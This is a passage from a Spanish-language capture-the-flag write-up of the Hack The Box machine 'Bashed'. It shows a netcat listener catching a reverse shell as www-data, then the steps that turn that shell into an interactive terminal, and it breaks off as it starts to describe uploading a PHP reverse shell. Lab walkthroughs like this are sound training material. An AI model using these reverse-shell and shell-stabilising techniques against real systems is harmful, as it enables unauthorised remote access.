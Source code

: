 * Y ya deberíamos estar conectados:
```bash
nc -nvlp 443                                                    
listening on [any] 443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.68] 45400
bash: cannot set terminal process group (815): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bashed:/var/www/html/dev$ 
www-data@bashed:/var/www/html/dev$ whoami
whoami
www-data
```

De una vez, vamos a obtener una sesión interactiva, sigue estos pasos:

* Escribe el siguiente comando:
```bash
script /dev/null -c bash
```

* Presiona las teclas **ctrl + z**, debería aparecer el siguiente mensaje y luego la terminal de tu máquina:
```bash
zsh: suspended  nc -nvlp 443
```

* Ahora escribe el siguiente comando en tu máquina:
```bash
 stty raw -echo; fg       
[1]  + continued  nc -nvlp 443
```

* Escribe **reset** y te preguntará que tipo de terminal quieres, pon **xterm**:
```bash
[1]  + continued  nc -nvlp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```

* Exportemos **xterm**, **bash** y cambiemos el tamaño de la terminal (este último es opcional, pero lo recomiendo):
```bash
www-data@bashed:/var/www/html/dev$ export TERM=xterm
www-data@bashed:/var/www/html/dev$ export SHELL=bash
www-data@bashed:/var/www/html/dev$ stty rows 51 columns 189
```
Y listo, ya tenemos nuestra terminal interactiva.

<br>

<h3 id="Shell">Cargando una Reverse Shell</h3>

Recordemos 2 cosas, una que la página trabaja con **PHP** y que tiene una carpeta llamada **uploads**.

<p align="center">